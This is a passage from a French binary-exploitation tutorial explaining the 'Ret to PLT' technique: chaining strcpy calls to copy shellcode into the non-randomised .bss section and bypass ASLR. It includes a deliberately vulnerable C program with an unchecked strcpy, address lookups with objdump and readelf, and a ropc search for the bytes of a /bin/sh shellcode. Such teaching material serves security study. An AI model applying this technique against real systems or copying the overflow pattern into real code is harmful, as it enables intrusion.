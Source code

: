 On voit que ça fonctionne à merveille !

## 0x02 Ret to PLT (strcpy, memcpy, sprintf...)

Utilité : Cette technique est utilisée pour copier un payload (shellcode, fake stack frame) dans une zone non soumise à l'ASLR par exemple. Elle peut également permettre de bypass des filtres de caractères. (On peut par exemple avoir un \x00 dans notre payload)
Principe : Il s'agit de chaîner les appels d'une fonction de recopie (strcpy...), en copiant certains octets du programmes non soumis à l'ASLR (segment DATA/CODE), vers une zone non randomisé.

Pour cet exemple, je vais utiliser ce programme vulnérable :

```c
	#include <string.h>
	#include <stdio.h>

	char buffer[256];

	void foo(const char *b) {
    	char buff[256];

        strcpy(buff, b);
	}

	int main(int argc, char **argv) {

	    if(atoi(argv[2]) == 0xcd)
	        foo(argv[1]);

	    return 0;
	}
```

Notre objectif va être de copier un shellcode grâce à la fonction strcpy, vers une zone non soumise à l'ASLR et writable.

Cherchons l'adresse de strcpy@PLT :

```
	$ objdump -d ./a.out | grep "<strcpy@plt>:"
	080482f0 <strcpy@plt>:
```

On peut donc appeler strcpy en jumpant à l'adresse 0x080482f0.

Cherchons maintenant une zone mémoire +W, non soumise à l'ASLR :

```
	$ readelf -S ./a.out | grep .bss
	  [25] .bss              NOBITS          08049740 000740 000120 00  WA  0   0 32
```

Parfait, on a une zone de 0x120 bytes writable à l'adresse 0x08049740.

Utilisons RopC pour rechercher notre shellcode dans le binaire :

```
	$  ropc -f ./a.out -s "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73" \
                           \x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
	0x08048330  -> "\x31"
	0x08048398  -> "\xc9"
	0x080484e6  -> "\xf7"
	0x08048334  -> "\xe1"
	0x0804832c  -> "\xb0"
	0x080481fc  -> "\x0b"
	0x08048114  -> "\x51"
	0x080482f6  -> "\x68"
	0x08048134  -> "\x2f"
	0x08048134  -> "\x2f"
	0x08048142  -> "\x73"
```